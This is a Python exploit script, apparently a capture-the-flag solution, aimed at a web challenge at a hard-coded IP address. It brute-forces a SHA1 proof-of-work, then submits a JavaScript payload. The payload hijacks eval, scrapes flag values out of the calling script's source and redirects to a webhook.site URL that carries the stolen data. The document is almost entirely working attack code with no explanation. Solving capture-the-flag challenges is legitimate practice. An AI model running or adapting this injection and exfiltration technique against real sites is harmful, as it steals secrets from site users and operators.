 ```python
res = requests.get("http://58.229.185.61:8000/index.php", cookies={
    "PHPSESSID": "29c7ee02fbc11aeba1831e18e4a84581"
})

nonce = res.text.split("sha1")[1].split("==")[0].split('"')[1]

hashText = res.text.split("sha1")[1].split("==")[1].split("</code>")[0].strip()

leakCheck = ""

for brute in itertools.product(ascii, repeat=5):
    check = ''.join(brute)
    if sha1(nonce + check) == hashText:
        leakCheck = check
        print("hash leak!, check : ", check)
        break


print("Send Pow : ", leakCheck)

res2 = requests.post("http://58.229.185.61:8000/submit.php", headers={
    "Content-Type": "application/x-www-form-urlencoded"
}, cookies={
    "PHPSESSID": "29c7ee02fbc11aeba1831e18e4a84581"
}, data={
    "header": "",
    "script": """
    org_eval = eval;

    function myFunc() {
        console.log("OK");
        if (myFunc.caller === null) {
            console.log("The function was called from the top!");
        } else {
            let scripts = myFunc.caller.toString();
            let reg = new RegExp(/eval\(\"\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\$flag\[[0-9]+\] = (.+)\"\)/g);


            const matches = scripts.matchAll(reg);
            let flags = "";

            for (const match of matches) {
                flags += match[1];
                console.log(match.index)
            }

            location.href = `https://webhook.site/ce5c0ed9-5dc9-484e-9ce4-07a487e35aa0?a=` + encodeURIComponent(flags);
            return;
        }
    }

    eval = myFunc
    """,
    "pow": leakCheck
})
print(res2.text)
```
